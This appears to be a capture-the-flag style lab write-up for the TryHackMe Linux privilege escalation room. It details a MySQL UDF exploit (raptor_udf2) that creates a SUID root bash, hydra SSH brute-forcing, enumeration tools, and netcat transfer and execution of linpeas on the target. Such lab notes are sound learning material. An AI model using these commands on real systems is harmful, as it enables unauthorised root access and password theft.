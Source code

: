 # Overview
https://tryhackme.com/room/linuxprivesc

```
export IP=10.10.191.59
```
# [Service Exploits](setuid-exploit)
The MySQL service is running as root and the "root" user for the service does not have a password assigned. 
We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands 
as root via the MySQL service.

1. Change into the /home/user/tools/mysql-udf directory:
```
cd /home/user/tools/mysql-udf
```
1. Compile the raptor\_udf2.c exploit code using the following commands:
```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
1. Connect to the MySQL service as the root user with a blank password:
```
mysql -u root
```
1. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```
1. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
1. Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
```
/tmp/rootbash -p
```
1. Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!
```
rm /tmp/rootbash
exit
```

# Tools
## NMAP
```
mkdir nmap
nmap -sC -sV -oN nmap/initial $IP
```

## SSH
We are able to ssh using given info:
```
user
password321
```

## hyra
For finding passwords
```
hydra -l user -P /opt/rockyou.txt ssh://$IP
```

## Gobuster
Look for hidden webpages
```
export WORDLIST=/opt/directory-list-2.3-medium.txt
gobuster dir -u "http://$IP" -w $WORDLIST | tee gobuster.log
```

## enum4linux
```
/opt/enum4linx/enum4linx.pl -a $IP | tee enum4linux.log
```

# linpeas!
target terminal:
```
nc -l -p 1234 > /tmp/jake &
```

my terminal:
```
nc $IP $PORT < linpeas.sh
```

Finally, run:
```
chmod +x /tmp/jake
/tmp/jake
```
